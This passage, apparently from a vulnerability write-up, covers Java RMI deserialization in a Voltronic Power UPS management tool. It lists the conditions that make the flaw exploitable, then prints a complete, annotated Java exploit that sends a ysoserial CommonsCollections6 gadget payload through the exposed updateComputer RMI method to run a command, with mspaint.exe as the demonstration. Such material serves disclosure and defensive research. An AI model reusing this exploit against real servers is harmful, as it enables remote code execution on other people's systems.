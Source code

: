```cmd
22/02/2022  15:43            51,653 upsLinkUtil.jar
              22 File(s)     12,216,590 bytes
               2 Dir(s)  16,346,681,344 bytes free
```

[1] Is definately vulnerable and used within the provided exploit. [2] Is very likely also vulnerable.


To summarize:
* JEP>=290 -> no direct RMI exploitation using `ysoserial.exploit.RMIRegistryExploit`
* RMI exposed Method uses non-primitive data type as parameter 
* Vulnerable Classes (containing RCE Gagdgets) in Classpath




#### Exploit:
---

```java
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.lang.reflect.InvocationHandler;

import ysoserial.payloads.CommonsCollections6;
import cn.com.voltronicpower.data.bean.ComputerConfig;
import cn.com.voltronicpower.rmiInterface.SystemServiceInterface;

public class Main {

	public static void main(String[] args) throws Throwable {

	  try {

		String serverIP = args[0];
		int serverPort = 41009;
			
		Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);			// [1]
		SystemServiceInterface ssi = (SystemServiceInterface) registry.lookup("system");	// [2]
			
		InvocationHandler ih = Proxy.getInvocationHandler(ssi);					// [3]
		Method method = SystemServiceInterface.class.getMethod("updateComputer", new Class[] {ComputerConfig.class });	// [4]
		Object payload = new CommonsCollections6().getObject("mspaint.exe");			// [5]

		Object[] params = new Object[] {							// [6]
			payload
		};
			
		ih.invoke(ssi, method, params);								// [7]

	  } catch (Exception e) {
	  	System.out.println(e.toString());
	  	e.printStackTrace();
	  }
	}
}

```
